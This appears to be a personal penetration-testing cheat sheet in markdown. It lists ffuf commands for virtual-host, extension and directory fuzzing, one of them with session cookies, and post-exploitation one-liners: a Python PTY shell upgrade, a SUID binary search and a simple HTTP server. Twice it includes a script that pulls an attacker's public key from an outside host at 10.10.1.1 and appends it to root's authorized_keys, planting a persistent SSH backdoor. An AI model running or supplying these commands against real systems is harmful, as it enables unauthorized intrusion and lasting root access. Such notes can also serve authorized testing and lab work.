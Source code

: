 * VHOST scan

```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://domain.com/ -H 'Host: FUZZ.domain.com' -ac
```
* Fuzz extensions
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/web-extensions.txt:FUZZ -u http://domain.com/indexFUZ
```

* Fuzz content
```
ffuf -w ~/Documents/fuzz/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://dev.domain.com/FUZZ -ac
```

* Fuzz content with cookies
```
ffuf -w Documents/fuzz/content_discovery_all.txt -b "JSESSIONID=weggejorist; BIGipServertest.domain.ondemand.com=weggejorist/wkJjIarIpdsw=; slo_regular_domains_eu1_ij1a2ql5iw_ij1ql5iw=weggejorist; JTENANTSESSIONID_ij1a2ql5iw=sRiYncosfVGnaRZ%2BpN3%2APj2zUuzsvmPcIT8%3D; dpd.sessionTimeout.start=weggejorist" -u https://weggejorist.domain.com/dpd-web/FUZZ
```


* Diff two websites
```
diff <(curl -s http://dev.domain.com/static) <(curl -s http://dev.domain.com/Static)
```


* PTY 
`python3 -c 'import pty; pty.spawn("/bin/sh")'`

* Process tree
```ps -ef --forest ```

* SUID
```
find / -perm -u=s -type f 2>/dev/null
of
find / -perm -4000 2>/dev/null
```

* SSH
```
#!/bin/bash

mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```

* Simple HTTP python
```
python3 -m http.server 8000
```

* SSH
```
mkdir /root/.ssh/
chmod 600 /root/.ssh
curl 10.10.1.1/b0x41s.pub >> /root/.ssh/authorized_keys
chmod 600 /root/.ssh/authorized_keys
```
